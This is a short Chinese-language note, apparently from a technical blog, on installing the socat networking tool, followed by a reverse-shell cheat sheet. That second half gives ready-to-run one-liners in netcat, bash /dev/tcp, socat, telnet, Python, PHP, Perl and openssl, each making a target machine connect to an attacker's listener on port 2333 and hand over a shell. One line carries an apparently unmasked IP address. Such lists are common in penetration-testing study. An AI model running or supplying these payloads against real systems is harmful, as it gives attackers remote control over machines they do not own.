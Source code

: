 https://www.hi-linux.com/posts/61543.html

Socat 的官方网站：http://www.dest-unreach.org/socat/

Socat 安装
通过源码方式安装
$ wget http://www.dest-unreach.org/socat/download/socat-1.7.3.2.tar.gz
$ tar zxf socat-1.7.3.2.tar.gz
$ cd socat-1.7.3.2
$ ./configure 
$ make   
$ make install

通过包安装 (推荐)
Centos

$ yum install -y socat


Debian/Ubuntu

$ apt-get install -y socat


macOS

$ brew install socat


Socat 基本语法

socat [options] <address> <address>


# 反弹shell
https://xz.aliyun.com/t/9488

攻击机开启本地监听：
socat TCP-LISTEN:2333 -
netcat -lvvp 2333

目标机主动连接攻击机：
nc:     netcat 47.xxx.xxx.72 2333 -e /bin/bash
bash:   bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1 或 bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
socat： socat tcp-connect:47.xxx.xxx.72:2333 exec:'bash -li',pty,stderr,setsid,sigint,sane
telnet: mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a
python: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
php:    php -r '$sock=fsockopen("47.xxx.xxx.72",2333);exec("/bin/sh -i <&3 >&3 2>&3");'
perl:   perl -e 'use Socket;$i="47.101.57.72";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

openssl加密shell:
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s
